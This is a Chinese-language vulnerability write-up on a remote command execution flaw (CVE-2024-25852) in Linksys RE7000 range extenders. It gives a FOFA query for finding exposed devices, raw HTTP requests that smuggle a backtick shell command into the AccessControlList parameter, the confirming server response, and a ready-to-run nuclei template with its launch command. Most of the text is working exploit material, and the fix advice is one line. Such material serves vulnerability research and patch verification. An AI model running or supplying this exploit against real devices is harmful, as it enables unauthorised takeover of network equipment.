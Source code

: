 
01

**漏洞名称**

Linksys RE7000 远程命令执行漏洞

02

**漏洞影响**

Linksys RE7000 v2.0.9、2.0.11和v 2.0.15



03

**漏洞描述**



Linksys RE7000 v2.0.9、2.0.11和v 2.0.15在访问控制功能点的“AccessControlList”参数中存在命令执行漏洞。攻击者可以使用此漏洞获取设备管理员权限。



04

**FOFA搜索语句**

```
body="/login.shtml?ran="
```

05

**漏洞复现**



第一步，执行命令，在本地写入一个随机字符串到文件

```YAML
PUT /goform/AccessControl HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Length: 103
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1

{"AccessPolicy":"0","AccessControlList":"`echo sEyKvOlYSyQZ>/etc_ro/lighttpd/RE7000_www/FcijtS.txt`"}
```

第二步，访问上面写入的文件



```YAML

GET /FcijtS.txt HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36 Edg/92.0.902.84
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```

响应内容如下



```YAML

HTTP/1.1 200 OK
Connection: close
Content-Length: 13
Accept-Ranges: bytes
Content-Type: text/plain
Date: Mon, 22 Apr 2024 02:29:36 GMT
Etag: "-575936322"
Last-Modified: Mon, 22 Apr 2024 02:29:34 GMT
Server: lighttpd/1.4.20

sEyKvOlYSyQZ
```



漏洞复现成功





06



**nuclei poc**

poc文件内容如下



```yaml

id: CVE-2024-25852

info:
  name: Linksys RE7000 远程命令执行漏洞
  author: fgz
  severity: critical
  description: Linksys RE7000 v2.0.9、2.0.11和v 2.0。15在访问控制功能点的“AccessControlList”参数中存在命令执行漏洞。攻击者可以使用此漏洞获取设备管理员权限。
  metadata:
    max-request: 1
    fofa-query: body="/login.shtml?ran="
    verified: true
variables:
  file: "{{rand_base(6)}}"
  str: "{{rand_base(12)}}"
requests:
  - raw:
      - |+
        PUT /goform/AccessControl HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate, br
        Connection: close
        Upgrade-Insecure-Requests: 1
        
        {"AccessPolicy":"0","AccessControlList":"`echo {{str}}>/etc_ro/lighttpd/RE7000_www/{{file}}.txt`"}

      - |+
        GET /{{file}}.txt HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36 Edg/92.0.902.84
        Accept-Charset: utf-8
        Accept-Encoding: gzip, deflate
        Connection: close

    matchers:
      - type: dsl
        dsl:
          - "status_code_2 == 200 && contains(body_2, '{{str}}')"
        condition: and
```

运行POC

```
nuclei.exe -t mypoc/cve/CVE-2024-25852.yaml -l data\1.txt
```





07

**修复建议**



升级到最新版本。